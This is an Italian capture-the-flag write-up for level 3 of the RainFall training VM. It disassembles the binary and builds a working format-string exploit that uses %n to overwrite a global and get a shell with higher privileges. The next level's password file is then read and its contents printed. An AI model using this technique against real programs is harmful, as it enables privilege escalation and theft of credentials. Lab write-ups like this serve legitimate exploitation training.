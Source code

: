 # Level 3
Come prima cosa controlliamo le stringhe presenti nell'eseguibile:
```
level3@RainFall:~$ readelf -p '.rodata' level3

String dump of section '.rodata':
  [     8]  Wait what?!^J
  [    15]  /bin/sh
```
Notiamo che nell'eseguibile è presente il percorso `/bin/sh`.
Ora verifichiamo le funzioni chiamate nell'eseguibile e disassembliamo
quelle scritte dall'utente:
```
level3@RainFall:~$ gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
(gdb) disass v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```
### Funzione `main`:
In questa funzione troviamo solo una chiamata alla funzione `v`
### Funzione `v`:
In questa funzione vengono riservati 0x218 (536) byte per le variabili
locali, poi vengono chiamate le funzioni `fgets` e `printf` nel seguente
modo:
```
fgets(s, 512, stdin);
printf(s);
```
e successivamente viene verificato il valore presente nell'indirizzo
`0x804988c` se equivale a 0x40 (64), se ciò risultasse vero allora
verra chiamata la funzione `system` passandogli `/bin/sh` altrimenti
la funzione restituisce il controllo.
Tramite il comando `objdump -D level3` possiamo effettivamente vedere
che l'indirizzo `0x804988c` corrisponde alla variabile `m` salvata
nella sezione `.bss`:
```
Disassembly of section .bss:

0804988c <m>:
 804988c:       00 00                   add    %al,(%eax)
        ...
```
Dunque bisogna modificare il valore in questa variabile e sfrutteremo
la vulnerabilità di printf dato che l'input non viene controllato.
Iniziamo ad inserire un po di `%x` per vedere in che punto della memoria
printf andrà a recuperare le informazioni:
```
level3@RainFall:~$ ./level3
AAA %x.%x.%x.%x
AAA 200.b7fd1ac0.b7ff37d0.20414141
```
notiamo che nel quarto `%x` viene stampata la stringa scritta quindi
ora inseriamo l'indirizzo della variabile all'inizio della stringa:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x. "*4 ' > /tmp/exploit
level3@RainFall:~$ gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) r < /tmp/exploit
Starting program: /home/user/level3/level3 < /tmp/exploit
��200. b7fd1ac0. b7ff37d0. 804988c.
```
ora sfruttiamo `%n` per memorizzare il ritorno di printf nell'indirizzo
appena scritto, quindi sostituiamo il quarto `%x` con `%n`:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x. "*3 + "%n" ' > /tmp/exploit
level3@RainFall:~$ gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b *0x080484df
Breakpoint 1 at 0x80484df
(gdb) r < /tmp/exploit
Starting program: /home/user/level3/level3 < /tmp/exploit
��200. b7fd1ac0. b7ff37d0.

Breakpoint 1, 0x080484df in v ()
(gdb) p *0x804988c
$1 = 29
(gdb) c
Continuing.
[Inferior 1 (process 4051) exited with code 035]
```
ora abbiamo il valore 29 nella variabile, quindi basterà scrivere un totale
di 64 caratteri:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a"*35 + "%x. "*3 + "%n" ' > /tmp/ex
ploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
��aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa200. b7fd1ac0. b7ff37d0.
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
exit
exit
level3@RainFall:~$ su level4
Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$
```